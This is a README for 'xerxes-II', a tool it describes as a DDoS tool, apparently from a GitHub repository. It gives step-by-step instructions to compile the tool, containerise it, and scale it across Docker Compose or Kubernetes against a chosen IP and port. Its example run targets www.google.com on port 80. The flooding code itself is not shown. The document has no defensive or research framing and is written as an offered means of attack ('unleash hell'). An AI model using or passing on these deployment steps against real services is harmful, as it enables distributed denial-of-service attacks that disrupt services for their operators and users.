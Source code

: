 # xerxes-ii
---
XERXES-ii is a DDOS tool powered by `containers`. 

## Usage

To unleash hell on a particular service 
- Clone the repository`$ git clone https://github.com/ahab94/xerxes-II.git`
- Change Directory to the xerxes-II `$ cd xerxes-II`

### Build executable
*Note: gcc dependencies are required*
- Compile and build xerxes-II `$ gcc -o xerxes-II xerxes-II.c`

### Build image
- Build a docker image image`$ sudo docker build . -t xerxes`

### DDOS using Kubernetes
*NOTE: Kubernetes is required to be setup on the host*
- Create `Xerxes` pod `$ kubectl create -f kubernetes/xerxes-ii-pod.yaml`

### DDOS using Docker
*NOTE: Docker and DockerCompose must be installed on the host*
- In docker-compose.yml define the IP and Port you want to do DDOS on for example.
```YAML
version: '2'
services:
  xerxes-ii-some-service-1:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-1-ip-or-hostname
      - PORT=some-service-1-port

  xerxes-ii-some-service-2:
    image: xerxes
    environment:
      - IP=some-service-2-ip-or-hostname
      - PORT=some-service-2-port

  xerxes-ii-some-service-3:
    image: xerxes
    environment:
      - IP=some-service-3-ip-or-hostname
      - PORT=some-service-3-port
```
- Spawn N number of containers for DDOS `$ sudo docker-compose up --scale xerxes-ii-some-service-1=<number-of-nodes-for-DDOS>`

### Spawning container for dev env
- Initiate xerxes-II container `$ sudo docker run -e IP=www.google.com -e PORT=80 -it xerxes`

### Spawning process for dev env
- Spawn the xerxes-II process `$ bash entrypoint-to-hell.sh`
